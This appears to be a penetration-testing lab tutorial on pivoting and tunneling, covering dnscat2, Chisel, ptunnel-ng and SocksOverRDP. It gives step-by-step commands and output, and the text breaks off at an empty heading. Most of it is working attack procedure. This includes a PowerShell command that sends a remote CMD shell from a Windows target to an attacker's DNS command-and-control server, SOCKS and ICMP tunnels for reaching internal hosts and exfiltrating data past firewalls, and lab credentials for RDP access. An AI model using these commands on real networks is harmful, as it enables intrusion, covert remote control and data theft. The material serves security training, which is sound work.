






## DNS Tunneling with Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol.

### Setting Up & Using dnscat2

#### Cloning dnscat2 and Setting Up the Server

```bash
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

#### Starting the dnscat2 server

```bash
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [`dnscat2-powershell`](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host

```bash
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

#### Importing dnscat2.ps1

```bash
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```bash
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

#### Confirming Session Establishment

```bash
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

#### Listing dnscat2 Options

```bash
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

#### Interacting with the Established Session

```bash
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## SOCKS5 Tunneling with Chisel

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment.

### Setting Up & Using Chisel

#### Cloning Chisel

```bash
git clone https://github.com/jpillora/chisel.git
```

#### Building the Chisel Binary

```bash
cd chisel
go build
```

#### Transferring Chisel Binary to Pivot Host

```bash
scp chisel ubuntu@10.129.202.64:~/
```

#### Running the Chisel Server on the Pivot Host

```bash
./chisel server -v -p 1234 --socks5
```

#### Connecting to the Chisel Server

```bash
./chisel client -v 10.129.202.64:1234 socks
```

#### Editing & Confirming proxychains.conf

```bash
tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Chisel Reverse Pivot

#### Starting the Chisel Server on our Attack Host

```bash
sudo ./chisel server --reverse -v -p 1234 --socks5
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

```bash
./chisel client -v 10.10.14.17:1234 R:socks
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf

```bash
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## ICMP Tunneling with SOCKS

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.

### Setting Up & Using ptunnel-ng

#### Cloning Ptunnel-ng

```bash
git clone https://github.com/utoni/ptunnel-ng.git
```

#### Building Ptunnel-ng with Autogen.sh

```bash
sudo ./autogen.sh 
```

#### Alternative approach of building a static binary

```bash
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

#### Transferring Ptunnel-ng to the Pivot Host

```bash
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

#### Starting the ptunnel-ng Server on the Target Host

```bash
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

The IP address following `-r` should be the IP of the jump-box we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use.

#### Connecting to ptunnel-ng Server from Attack Host

```bash
samzz@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

#### Tunneling an SSH connection through an ICMP Tunnel

```bash
ssh -p2222 -lubuntu 127.0.0.1
```

#### Viewing Tunnel Traffic Statistics

```bash
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

#### Enabling Dynamic Port Forwarding over SSH

```bash
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```

#### Proxychaining through the ICMP Tunnel

```bash
proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

## RDP and SOCKS Tunneling with SocksOverRDP

There are often times during an assessment when we may be limited to a Windows network and may not be able to use SSH for pivoting. We would have to use tools available for Windows operating systems in these cases. [SocksOverRDP](https://github.com/nccgroup/SocksOverRDP) is an example of a tool that uses `Dynamic Virtual Channels (DVC)` from the Remote Desktop Service feature of Windows. DVC is responsible for tunneling packets over the RDP connection.

We can start by downloading the appropriate binaries to our attack host to perform this attack. Having the binaries on our attack host will allow us to transfer them to each target where needed. We will need:

  [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)

  [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)

  * We can look for `ProxifierPE.zip`

### Loading SocksOverRDP.dll using regsvr32.exe

```bash
C:\Users\htb-student\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
```



Now we can connect to 172.16.5.19 over RDP using `mstsc.exe`, and we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. We can use the credentials `victor:pass@123` to connect to 172.16.5.19.



We will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. We can then start SocksOverRDP-Server.exe with Admin privileges.



### Confirming the SOCKS Listener is Started

```bash
C:\Users\htb-student\Desktop\SocksOverRDP-x64> netstat -antb | findstr 1080

  TCP    127.0.0.1:1080         0.0.0.0:0              LISTENING
```

### Configuring Proxifier



With Proxifier configured and running, we can start mstsc.exe, and it will use Proxifier to pivot all our traffic via 127.0.0.1:1080, which will tunnel it over RDP to 172.16.5.19, which will then route it to 172.16.6.155 using SocksOverRDP-server.exe.



### RDP Performance Considerations

